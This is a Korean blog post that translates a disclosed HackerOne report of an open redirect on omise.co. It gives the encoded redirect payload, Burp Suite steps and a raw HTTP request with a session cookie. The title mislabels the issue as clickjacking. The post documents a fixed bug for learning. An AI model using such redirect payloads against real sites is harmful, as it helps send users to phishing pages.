 ```yaml
---
layout: post
title: 클릭재킹 개념과 실제 사례(ylands.com)
categories: PoC
tags: [Bugbounty, OpenRedirect, Translation, Hackerone]
---
```

출처 : [hackerone hacktivity, 작성자 : Jishnu Sudhakaran (jishnupunnol)] https://hackerone.com/reports/504751

_[ 본 이슈는 해결 된 상태이며, 취약점은 한국시각으로 2019년 3월 25일 오전 6시 42분에 공개되었습니다. Omise에 리포팅 되었습니다. 취약점의 종류는 Open Redirect이며, 포상금은 $100달러로 한화로 약 11만원 입니다. 해당 취약점은 해당 도메인에서 3.3/10 정도의 심각성을 내포하고 있습니다. ]_
- - -

# 설명
Open Redirect 취약점.

URL : https://www.omise.co////bing.com/?www.omise.co/?category=interview&page=2

파라미터 종류 : URL 재작성

공격 패턴 : %2f%2f%2fr87.com%2f%3fwww.omise.co%2f
- - -
# 공격이 발생되는 과정
1. 다음의 URL을 버프스위트를 이용해 가로챈 뒤 리피터 탭으로 보냅니다 : https://www.omise.co/?category=interview&page=2
1. 다음과 같은 공격 패턴을 이용합니다 : /%2f%2f%2fbing.com%2f%3fwww.omise.co
1. bing.com 으로 리다이렉트 시킵니다.


## Request body와 캡처 이미지는 다음과 같습니다 :
{% highlight html %}
GET /%2f%2f%2fbing.com%2f%3fwww.omise.co/?category=interview&page=2 HTTP/1.1
Host: www.omise.co
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _omise-website_session=OHdwcEpSZVUvVXRqS3F3bUVyUUhaZ2pVY00wVWJ1c042RWZZNHdOendwUEkzS0dnaTJPb1hub3ZxcGhkUk5FNy96blpiNjJPL0hhMUZBdS9Jb2ZFY25BcWxzcXNjbTAyclJLTlo0VGUvbzBsa085MXhNUG9uZFpzRnBBeEp4a2MtLU9ONHdIWVBZdWZlS3VIVXVYTVNkOVE9PQ%3D%3D--cf8f4d43247d9eb5aa162a3f00fabc02bbda3b34
Upgrade-Insecure-Requests: 1
{% endhighlight %}

![Omise.co_]({{site.baseurl}}/images/Omise.co_.png)
<center>POC 중 하나. 나머지 4개의 첨부 이미지도 같은 형식임. [사진 출처 : https://hackerone.com/reports/405342]</center>
- - -
# 영향
공격자는 해당 취약점을 이용하여 사용자를 피싱과 같은 다른 악의적인 웹 사이트로 리다이렉트 시킬 수 있습니다.